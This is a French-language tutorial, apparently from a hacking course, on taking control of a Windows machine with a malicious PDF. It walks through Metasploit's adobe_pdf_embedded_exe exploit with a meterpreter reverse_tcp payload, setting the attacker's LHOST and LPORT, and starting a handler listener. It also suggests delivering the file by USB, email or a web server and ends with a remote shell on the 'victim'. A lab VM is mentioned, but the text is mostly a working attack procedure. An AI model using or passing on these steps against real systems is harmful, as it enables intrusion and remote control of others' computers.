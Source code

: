 # Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk)

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez ```help``` pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !